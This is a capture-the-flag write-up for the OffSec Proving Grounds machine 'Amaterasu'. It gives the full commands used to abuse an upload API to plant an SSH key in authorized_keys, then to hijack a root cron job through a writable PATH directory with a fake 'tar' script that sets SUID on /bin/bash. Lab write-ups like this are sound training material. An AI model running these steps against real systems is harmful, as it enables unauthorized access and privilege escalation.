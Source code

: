 ```yaml
---
title: "Amaterasu"
date: 2024-10-10
draft: false
summary: "Writeup for Amaterasu proving grounds CTF challenge."
tags: ["linux", "cron", "file upload", "api"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/amaterasu/4.webp"
  caption: "Amaterasu Proving Grounds Challenge"
  alt: "Amaterasu cover"
platform: "Misc"
---
```


**Amaterasu** is an CTF challenge on Offsec's proving grounds and requires us to find 2 flags by exploiting different vulnerabilities.
<!--more-->
To access the lab, click on the link given below:
- https://portal.offsec.com/labs/play

## Reconnaissance

I performed an **nmap** scan to find information about the target.

```shell
nmap -A -p- TARGET -oN amaterasu.nmap --min-rate 10000
```

| **PORT** | **SERVICE** |
| -------- | ----------- |
| 21       | FTP         |
| 25022    | SSH         |
| 33414    | HTTP        |
| 40080    | HTTP        |

![](https://cdn.ziomsec.com/amaterasu/1.webp)
![](https://cdn.ziomsec.com/amaterasu/2.webp)
![](https://cdn.ziomsec.com/amaterasu/3.webp)

## Initial Foothold

Since **nmap** identified anonymous login on **FTP**, I accessed the server. However, it contained nothing so I moved onto the next service i.e http.

```shell
ftp TARGET
# username: anonymous
# password: anonymous
```

![](https://cdn.ziomsec.com/amaterasu/4.webp)

The page didn't contain anything interesting so I used **ffuf** to bruteforce hidden directories.

```shell
ffuf -u http://TARGET:40080/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt -mc 200,302,301
```

![](https://cdn.ziomsec.com/amaterasu/5.webp)

Since this did not reveal anything of interest, I shifted to the next port running HTTP service and again performed a directory brute force using **ffuf**.

```shell
ffuf -u http://TARGET:33414/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```

![](https://cdn.ziomsec.com/amaterasu/6.webp)

I accessed the discovered paths and found endpoints to perform various operations.

![](https://cdn.ziomsec.com/amaterasu/7.webp)

![](https://cdn.ziomsec.com/amaterasu/8.webp)

The `file-list?dir=/tmp` endpoint allowed me to view the contents of the **`/tmp`** directory.

![](https://cdn.ziomsec.com/amaterasu/9.webp)

The `/file-upload` endpoint allowed me to upload files. So I created a file and tried uploading using **curl**.

```shell
curl -H 'Content-Type: multipart/form-data' -F file='@//root/offsec/amaterasu/scriptie.txt' -F filename='/tmp/scriptie.txt' http://TARGET:33414/file-upload
```

![](https://cdn.ziomsec.com/amaterasu/10.webp)
![](https://cdn.ziomsec.com/amaterasu/11.webp)

I navigated to the `file-list` endpoint and found my uploaded file.

![](https://cdn.ziomsec.com/amaterasu/12.webp)

Since the `/file-list` endpoint used the parameter `dir` to select a folder to view, I used it to view the contents inside `/home` directory.

![](https://cdn.ziomsec.com/amaterasu/13.webp)

![](https://cdn.ziomsec.com/amaterasu/14.webp)

Inside **Alfred's** home directory, I found the **.ssh** folder so I looked into it. I also found the first flag here.

![](https://cdn.ziomsec.com/amaterasu/15.webp)

The **.ssh** file contained **alfred's** public and private key. I could upload my public key to this folder and save them as **authorized_keys**. This would allow me to log in using my private key.

```shell
$ ssh-keygen
$ cd .ssh; chmod 600 id_rsa
```

![](https://cdn.ziomsec.com/amaterasu/16.webp)

> Since the **api** only allowed certain file extensions, I renamed my file to `id_rsa.txt`

```shell
cp id_rsa.pub id_rsa.txt
```

![](https://cdn.ziomsec.com/amaterasu/17.webp)

Finally I uploaded the file and saved them as *authorized_keys*

```shell
curl -H 'Content-Type: multipart/form-data' -F file='@//root/offsec/amaterasu/.ssh/id_rsa.txt' -F filename='/home/alfredo/.ssh/authorized_keys' http://TARGET:33414/file-upload
```

![](https://cdn.ziomsec.com/amaterasu/18.webp)

![](https://cdn.ziomsec.com/amaterasu/19.webp)

I then logged in using my private key on the using **ssh** service that was running on port **25022**

```shell
ssh alfred@TARGET -p 25022 -i /root/offsec/amaterasu/.ssh/id_rsa
```

![](https://cdn.ziomsec.com/amaterasu/20.webp)

Upon logging in, I captured the first flag from the home directory.

![](https://cdn.ziomsec.com/amaterasu/21.webp)

## Privilege Escalation

I used **linpeas** to enumerate privesc vectors.
- https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

![](https://cdn.ziomsec.com/amaterasu/22.webp)

Using it, I was able to discover a cronjob that executed a bash script every minute.

```shell
cat /etc/crontab
```

![](https://cdn.ziomsec.com/amaterasu/23.webp)

I viewed the script that it was running. This script added `/home/alfredo/restapi` to the `PATH` environment variable and then move into the directory to create a compressed archive of all files in the directory. This archive was then saved in the `/tmp` directory.

![](https://cdn.ziomsec.com/amaterasu/24.webp)

I viewed the **`/restapi`** folder and found 2 python files and a folder to store compiled python files. I created a bash script that added an **suid** bit to **/bin/bash** binrary. I added execution permission to this file using **chmod** and copied it inside the **`/restapi`** folder.

```shell
$ echo '#!/bin/bash' > tar
$ echo 'chmod u+s /bin/bash' >> tar
$ cp tar restapi/
$ cd restapi/
$ chmod +x tar
$ cat tar
```

![](https://cdn.ziomsec.com/amaterasu/25.webp)

After a minute I verified if my script was executed and found the **suid** bit on the **`bash`** binary.

```shell
find / -user root -perm -u=s -ls 2>/dev/null
```

![](https://cdn.ziomsec.com/amaterasu/26.webp)

Finally I executed **bash** in privileged mode and captured the final flag from the `/root` directory.

```shell
bash -p
```

![](https://cdn.ziomsec.com/amaterasu/27.webp)

## Closure

Here's a summary of how I pwnd **Amaterasu**:
- I fuzzed web directories to find a directory with api endpoints that allowed my to upload files and view contents of directories.
- I uploaded my **public key** as **authorized_keys** in the **.ssh** file and logged in using my **private** key.
- I captured the first flag from **alfred's** home directory.
- I ran **linpeas** to discover a **cronjob** that ran every minute.
- I added an executable bash script that added an **suid** bit to the **`/bin/bash`** binary and waited for the cron to execute my script.
- I then executed **bash** in privileged mode and captured the final flag from the `/root` directory.

That's it from my side! 
Happy hacking 🎉

---
